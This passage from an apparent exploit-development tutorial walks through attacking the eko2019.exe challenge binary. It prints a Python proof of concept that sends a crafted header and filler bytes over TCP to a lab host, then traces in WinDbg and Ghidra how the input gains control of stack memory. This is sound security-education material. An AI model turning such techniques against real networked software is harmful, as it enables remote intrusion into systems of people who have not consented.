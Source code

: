Now that we know what will be written to where, let's set a breakpoint on this location in memory in WinDbg, and start stepping through each instruction and dumping the contents of the registers in use. This will give us a clearer understanding of the behavior of eko2019.exe

Here is the proof of concept we will be using, based on the checks we have bypassed earlier.

```python
import sys
import os
import socket
import struct
import time

# Defining sleep shorthand
sleep = time.sleep

# 16 total bytes
print "[+] Sending the header..."
exploit = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 bytes + 16 byte header = 528 total bytes
exploit += "\x41" * 512

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit)
s.recv(1024)
s.close()
```

Before sending this proof of concept, let's make sure a breakpoint is set at ek2010.exe+0x1330 (`sub_140001330`), as this is where we should land after our header is sent.

After sending our proof of concept, we can see we hit our breakpoint.

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_14.png" alt="">

In addition to execution pausing, it seems as though we also control 0x1f8 bytes on the stack (504 decimal).

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_15.png" alt="">

Let's keep stepping through instructions, to see where we get!

After stepping through a few instructions, execution lands at this instruction, shown below.

```nasm 
lea rcx,[eko2019+0xe520 (00007ff6`6641e520)]
```

<img src="{{ site.url }}{{ site.baseurl }}/images/BFS_16.png" alt="">

This instruction loads the address of eko2019.exe+0xe520 into RCX. Looking back, we recall the following is the decompiled code from Ghidra that corresponds to our current instruction.

```nasm
lea rcx, unk_14000E520
mov rcx, [rcx+rax*8]
call sub_140001170
```
